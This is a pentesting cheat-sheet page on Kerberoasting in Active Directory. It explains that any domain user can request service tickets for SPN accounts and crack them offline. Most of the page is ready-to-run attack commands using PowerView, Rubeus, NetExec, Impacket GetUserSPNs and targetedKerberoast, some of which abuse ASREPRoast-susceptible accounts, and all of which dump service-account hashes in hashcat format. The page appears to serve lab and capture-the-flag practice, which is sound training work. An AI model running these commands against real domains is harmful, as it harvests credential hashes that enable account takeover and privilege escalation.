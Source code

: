 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

Typically, [Kerberoasting](kerberoasting.md) happens after compromising a domain user. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check [Rebound](../../../boxes/insane/rebound.md#kerberoasting)).

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
# confirm that the target account has SPN
Get-DomainUser 'sqldev' | Select serviceprincipalname
# kerberoast the target account
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with Rubeus check [here](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory).

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}

{% tab title="Impacket (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```bash
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}
{% endtab %}

{% tab title="targetedKerberoast" %}
```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with NetExec check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting).

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
